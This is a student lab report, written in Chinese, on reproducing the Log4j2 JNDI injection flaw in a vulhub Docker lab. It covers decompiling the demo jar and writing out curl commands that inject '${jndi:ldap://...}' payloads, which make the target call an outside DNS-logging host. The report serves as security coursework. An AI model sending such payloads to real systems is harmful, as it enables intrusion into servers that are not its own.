




# 网安实践实验报告

## 实验环境

- kali-attacker 和 kali-victim 都使用 kali-2024 linux

## 实验过程

### log4j2 漏洞环境搭建与复现

1. 按照老师视频中的步骤，配置 vulhub 实验环境，并在镜像管理中下载 log4j2 漏洞镜像，并在首页中启动 log4j2 漏洞复现环境。

   <div></div>

2. 按照视频步骤，配置 vulhub 实验环境，并在镜像管理中下载 log4j2 漏洞镜像，启动 log4j2 漏洞复现环境。
   
   <div></div>

3. 启动后可以看到镜像具体内容如下所示，其中包括镜像的访问地址：
   
   <div></div>

   - 访问该网址，可以正常访问。

   <div></div>

   - 点进网页中唯一的连接，可以看到页面出现 `ok` 字样，这里地址栏中的 `payload` 作为参数传递给日志记录器，表示这个值将被记录到日志中，意味着有可能可以被我们利用进行攻击。

   <div></div>

4. 接下来我们尝试找到漏洞相关代码片段，首先用 `docker ps` 查看正在运行的镜像，可以看到启动 log4j2 漏洞复现环境后，出现了一个和我们漏洞复现环境端口映射一样的镜像，我们将其作为漏洞镜像。用以下命令进入该镜像：
      ```sh
      docker exec -it <镜像名称> bash
      ```
   <div></div>

5. `ls` 后看到当前目录下有 `demo.jar`，这应该便是漏洞的相关代码的文件了。

   <div></div>

6. 将 `demo.jar` 拷贝到本地虚拟机中
   ```sh
   docker cp <漏洞镜像名称>:/demo/demo.jar ./
   ```
   <div></div>

7. 用反编译工具的图形化界面分析 `demo.jar`，找到代码漏洞片段。首先需要下载该工具 JD-GUI，在官网上找到相应下载路径，下载后拖入到虚拟机中进行安装。

   <div></div>

8. 输入下述命令安装并运行该工具：
   ```
   sudo apt update
   sudo apt install default-jre
   java -jar jd-gui-1.6.6.jar
   ```

9. 运行成功后，会出现该工具的图形化界面，点击左上角的 `File`，选择 `Open`，打开 `demo.jar`，便可方便地查看代码。
   <div></div>

10. 跟随老师的视频，找到代码漏洞片段如下：
   <div></div>

   - 从反编译出来的代码可以看到日志记录格式使用了 `{}` 占位符表示 `payload` 的值将被格式化并记录。如果 payload 的内容不受限制或没有被正确清理，攻击者可能能够控制日志中的输出。
   
11. 接下来，验证漏洞可利用性。打开 `www.dnslog.cn` 这一网站，点击 `Get SybDomain` 按钮，获取专属的子域名。
   <div></div>

12. 在虚拟机中尝试发送 `POST` 请求，查看是否能够成功触发漏洞。很明显，没有成功。(图片和前面图片的端口不同是因为尝试了多次，但截了这一次的图)
    ```sh
    curl -X POST http://192.168.198.13:31388/hello -d 'payload="${jndi:ldap://v89v2i.dnslog.cn/ajdjd}"' 
    ```
   <div></div>
   
   - 再看漏洞代码片段，与老师视频中不同，我们的漏洞代码中 `payload` 是通过 `GET` 请求传参的，而不是 `POST` 请求。但是使用 `GET` 请求 dnslog 网站没有 record。
   <div></div>

13. 参考了同学的做法，将 `payload` 改为 `GET` 请求的方式，并绕过 GET 过滤，成功发送请求。
   ```sh
   curl -G http://192.168.198.13:31388/hello --data-urlencode 'payload="${jndi:ldap://tq8lht.dnslog.cn}"'
   ```
   <div></div>

   - 同时查看 dnslog 网站，新增了两条记录，也就是说它解析了两次这个域名。
   <div></div>

   ```sh
   docker run --name log4j2_exp -p 8888:8080 vulfocus/log4j2-rce-2021-12-09:latest 
   ```


   
## 参考资料


https://blog.csdn.net/smilehappiness/article/details/118466378

https://blog.csdn.net/weixin_41466575/article/details/105326230

https://www.runoob.com/mongodb/mongodb-linux-install.html

https://rasp.baidu.com/doc/install/panel.html

https://www.elastic.co/guide/en/elasticsearch/reference/6.8/deb.html


https://blog.csdn.net/weixin_44736359/article/details/107272370